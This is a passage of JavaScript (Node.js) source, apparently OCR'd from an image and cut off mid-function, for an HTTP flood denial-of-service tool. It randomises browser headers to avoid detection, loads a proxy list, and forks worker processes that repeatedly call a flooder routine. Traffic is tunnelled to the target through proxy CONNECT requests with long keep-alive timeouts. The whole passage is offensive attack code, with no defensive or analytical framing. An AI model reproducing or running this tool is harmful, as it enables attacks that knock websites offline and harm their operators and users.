  const uap = [
     "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5623.200 Safari/537.36",
     "Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5638.217 Safari/537.36",
     "Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5650.210 Safari/537.36",
     "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_15) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.221 Safari/537.36",
     "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5625.214 Safari/537.36",
     "Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5650.210 Safari/537.36"
 ];

 var cipper = cplist[Math.floor(Math.floor(Math.random() * cplist.length))];
 var siga = sig[Math.floor(Math.floor(Math.random() * sig.length))];
 var uap1 = uap[Math.floor(Math.floor(Math.random() * uap.length))];
 var Ref = refers[Math.floor(Math.floor(Math.random() * refers.length))];
 var accept = accept_header[Math.floor(Math.floor(Math.random() * accept_header.length))];
 var lang = lang_header[Math.floor(Math.floor(Math.random() * lang_header.length))];
 var encoding = encoding_header[Math.floor(Math.floor(Math.random() * encoding_header.length))];
 var control = control_header[Math.floor(Math.floor(Math.random() * control_header.length))];
 var proxies = readLines(args.proxyFile);
 const parsedTarget = url.parse(args.target);
 
      if (cluster.isMaster) {
        for (let counter = 1; counter <= args.threads; counter++) {
          cluster.fork();
        }
      } else {
        setInterval(runFlooder);
      };
 
 class NetSocket {
     constructor(){}
 
  HTTP(options, callback) {
     const parsedAddr = options.address.split(":");
     const addrHost = parsedAddr[0];
     const payload = "CONNECT " + options.address + ":443 HTTP/1.1\r\nHost: " + options.address + ":443\r\nConnection: Keep-Alive\r\n\r\n";
     const buffer = new Buffer.from(payload);
 
     const connection = net.connect({
         host: options.host,
         port: options.port
     });
 
     //connection.setTimeout(options.timeout * 600000);
     connection.setTimeout(options.timeout * 100000);
     connection.setKeepAlive(true, 100000);
 
     connection.on("connect", () => {
         connection.write(buffer);
     });
 